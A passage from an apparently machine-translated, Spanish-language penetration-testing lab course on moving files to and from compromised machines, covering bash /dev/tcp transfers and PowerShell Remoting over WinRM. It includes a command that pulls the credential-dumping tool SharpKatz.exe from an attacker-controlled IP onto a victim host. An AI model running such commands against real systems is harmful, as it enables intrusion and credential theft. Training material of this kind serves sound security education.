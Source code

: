### **Máquina comprometida que se conecta a NetCat usando /dev /tcp para recibir el archivo**

Métodos de transferencia de archivos varios

```
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe

```

**Nota:**La misma operación se puede usar para transferir archivos del host comprometido a nuestro Pwnbox.

---

# **PowerShell Session File Transfer**

Ya hablamos de hacer transferencias de archivos con PowerShell, pero puede haber escenarios en los que HTTP, HTTPS o SMB no están disponibles. Si ese es el caso, podemos usar[PowerShell a remoto](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), también conocido como WinRM, para realizar operaciones de transferencia de archivos.

[PowerShell a remoto](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2)nos permite ejecutar scripts o comandos en una computadora remota utilizando sesiones de PowerShell. Los administradores comúnmente usan PowerShell Remoting para administrar computadoras remotas en una red, y también podemos usarlo para operaciones de transferencia de archivos. Por defecto, habilitar PowerShell Remoting crea un HTTP y un oyente HTTPS. Los oyentes se ejecutan en puertos predeterminados TCP/5985 para HTTP y TCP/5986 para HTTPS.

Para crear una sesión de remotación de PowerShell en una computadora remota, necesitaremos acceso administrativo, ser miembro del`Remote Management Users`agrupar, o tener permisos explícitos para PowerShell Remoting en la configuración de la sesión. Creemos un ejemplo y transfiramos un archivo desde`DC01`a`DATABASE01`y viceversa.

Tenemos una sesión como`Administrator`en`DC01`, el usuario tiene derechos administrativos en`DATABASE01`y PowerShell Remoting está habilitado. Usemos Test-NetConnection para confirmar que podemos conectarnos a WinRM.

### **Desde DC01 - Confirmar el puerto WinRM TCP 5985 está abierto en la base de datos01.**

Métodos de transferencia de archivos varios

```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01

```

Métodos de transferencia de archivos varios

